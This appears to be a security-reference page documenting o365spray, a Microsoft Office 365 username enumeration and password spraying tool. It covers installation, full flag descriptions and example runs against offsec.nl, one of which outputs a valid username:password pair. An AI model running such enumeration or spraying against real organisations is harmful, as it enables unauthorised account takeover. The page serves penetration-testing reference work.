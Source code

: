 ```yaml
---
title : "O365spray"
# pre : ' '
description : "o365spray | Microsoft O365 User Enumerator and Password Sprayer."
date : 2021-11-03T20:53:22+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## O365spray

o365spray a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments).

> WARNING: The oAuth2 module for user enumeration is performed by submitting a single authentication attempt per user. If the module is run in conjunction with password spraying in a single execution, o365spray will automatically reset the lockout timer prior to performing the password spray -- if enumeration is run alone, the user should be aware of how many and when each authentication attempt was made and manually reset the lockout timer before performing any password spraying.

### Installation

```plain
git clone https://github.com/0xZDH/o365spray
pip3 install -r requirements.txt
```

### Usage

```plain
o365spray.py [-h] [-d DOMAIN] [--validate] [--enum] [--spray] [-u USERNAME] [-p PASSWORD] [-U USERFILE] [-P PASSFILE] [--paired PAIRED] [-c COUNT] [-l LOCKOUT] [--enum-module {office,onedrive,oauth2}]
                    [--spray-module {oauth2,activesync,autodiscover,reporting,adfs}] [--adfs-url ADFS_URL] [--sleep [-1, 0-120]] [--jitter [0-100]] [--rate RATE] [--safe SAFE] [--timeout TIMEOUT] [--proxy PROXY] [--output OUTPUT]
                    [-v] [--debug]
```

### Flags

```plain
o365spray | Microsoft O365 User Enumerator and Password Sprayer -- v2.0.4

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Target domain for validation, user enumeration, and/or password spraying.
  --validate            Run domain validation only.
  --enum                Run username enumeration.
  --spray               Run password spraying.
  -u USERNAME, --username USERNAME
                        Username(s) delimited using commas.
  -p PASSWORD, --password PASSWORD
                        Password(s) delimited using commas.
  -U USERFILE, --userfile USERFILE
                        File containing list of usernames.
  -P PASSFILE, --passfile PASSFILE
                        File containing list of passwords.
  --paired PAIRED       File containing list of credentials in username:password format.
  -c COUNT, --count COUNT
                        Number of password attempts to run per user before resetting the lockout account timer. Default: 1
  -l LOCKOUT, --lockout LOCKOUT
                        Lockout policy's reset time (in minutes). Default: 15 minutes
  --enum-module {office,onedrive,oauth2}
                        Specify which enumeration module to run. Default: office
  --spray-module {oauth2,activesync,autodiscover,reporting,adfs}
                        Specify which password spraying module to run. Default: oauth2
  --adfs-url ADFS_URL   AuthURL of the target domain's ADFS login page for password spraying.
  --sleep [-1, 0-120]   Throttle HTTP requests every `N` seconds. This can be randomized by passing the value `-1` (between 1 sec and 2 mins). Default: 0
  --jitter [0-100]      Jitter extends --sleep period by percentage given (0-100). Default: 0
  --rate RATE           Number of concurrent connections (attempts) during enumeration and spraying. Default: 10
  --safe SAFE           Terminate password spraying run if `N` locked accounts are observed. Default: 10
  --timeout TIMEOUT     HTTP request timeout in seconds. Default: 25
  --proxy PROXY         HTTP/S proxy to pass traffic through (e.g. http://127.0.0.1:8080).
  --output OUTPUT       Output directory for results and test case files. Default: current directory
  -v, --version         Print the tool version.
  --debug               Enable debug output.
```

### Examples

#### Validate domain

```plain
$ python3 o365spray.py -d offsec.nl --validate

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2021-11-03 20:52:48

>----------------------------------------<

[2021-11-03 20:52:48,396] INFO : Running O365 validation for: offsec.nl
[2021-11-03 20:52:48,652] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
```

#### Passwordspray over ActiveSync

```plain
$ python3 o365spray.py -d offsec.nl -u john.do --paired usercreds.txt --spray-module activesync --spray

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  offsec.nl
   > spray          :  True
   > username       :  john.do
   > paired         :  usercreds.txt
   > count          :  1 passwords/spray
   > lockout        :  15.0 minutes
   > spray_module   :  activesync
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2021-11-03 21:00:26

>----------------------------------------<

[2021-11-03 21:00:26,533] INFO : Running O365 validation for: offsec.nl
[2021-11-03 21:00:26,736] INFO : [WARNING] The following domain is using O365, but is Federated: offsec.nl
        [!] --> ADFS AuthURL: https://offsec.okta-emea.com/app/office365/
[2021-11-03 21:00:26,736] INFO : 

[ ? ]   Switch to the ADFS module for password spraying [Y/n] n
[2021-11-03 21:00:30,062] INFO : Running password spray against 1 users.
[2021-11-03 21:00:30,063] INFO : Password spraying using paired usernames:passwords.
[2021-11-03 21:00:30,498] INFO : [VALID] john.do@offsec.nl:Welkom1234!
[2021-11-03 21:00:30,499] INFO : 

[ * ] Writing valid credentials to: '/o365spray/spray/spray_valid_credentials.2111032100.txt'
[ * ] All sprayed credentials can be found at: '/o365spray/spray/spray_tested_credentials.2111032100.txt'

[2021-11-03 21:00:30,499] INFO : Valid Credentials: 1
```

### URL list

* [Github.com - o365spray](https://github.com/0xZDH/o365spray)
